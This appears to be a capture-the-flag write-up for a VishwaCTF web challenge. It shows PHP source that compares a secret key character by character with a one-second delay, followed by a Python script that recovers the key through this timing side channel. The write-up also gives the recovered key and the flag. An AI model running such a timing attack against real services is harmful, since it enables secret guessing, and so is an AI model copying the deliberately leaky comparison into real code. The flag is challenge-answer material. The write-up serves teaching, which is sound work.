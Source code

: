# Solution

The source Code -> 

```php
<?php
include "env.php";
set_time_limit(0);
if(isset($_GET['key'])){
    $your_input = $_GET['key'];
    if(strlen($your_input)!=5){
    die("It's five characters long, and may or may not contain numbers or characters or small letters or capital letters");
    }
    for($i=0; $i<strlen($your_input);$i++)
    {
        $let_check=$_ENV['our_input'];
        if($your_input[$i]!=$let_check[$i]){
            die("VERY VERY VERY INCORRECT");
        }
        usleep(1000000);
    }
    echo getenv('THE_THING_YOU_ARE_LOOKING_FOR');
}
?>
```

So you can see after every iteration it delays by 1 sec.

By this we can guess each keyword seperately by python.

```python
import requests
import time

URL = "https://time-is-an-illusion.vishwactf.com/handle.php?key="

flag = ""

for i in range(1,6):
    max_time = i
    temp = ""
    for j in range(32,127):
        before = time.time()
        response = requests.get(URL + flag + chr(j) + 'a'*(5-i))
        response.close()
        after = time.time()
        if(after-before >= max_time):
            print(chr(j) , end = "\n")
            max_time = after-before
            temp = chr(j)
    print("\n" + temp + "\n")
    flag+=temp
print(flag)
```

So with each keyword we find the max_time increases by 1

So key = KuKa9

``` Flag : vishwaCTF{PhP_h@$_iTs_0wN_PErK$} ```